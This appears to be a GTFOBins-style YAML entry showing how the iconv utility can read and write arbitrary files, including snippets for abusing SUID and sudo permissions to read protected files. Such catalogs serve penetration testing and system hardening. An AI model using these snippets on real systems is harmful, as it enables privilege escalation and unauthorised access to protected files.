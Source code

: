 ```yaml
---
description: The `8859_1` encoding is used as it accepts any single-byte sequence, thus it allows to read/write arbitrary files. Other encoding combinations may corrupt the result.
functions:
  file-write:
    - code: |
        LFILE=file_to_write
        echo "DATA" | iconv -f 8859_1 -t 8859_1 -o "$LFILE"
  file-read:
    - code: |
        LFILE=file_to_read
        iconv -f 8859_1 -t 8859_1 "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./iconv -f 8859_1 -t 8859_1 "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        ./iconv -f 8859_1 -t 8859_1 "$LFILE"
---
```

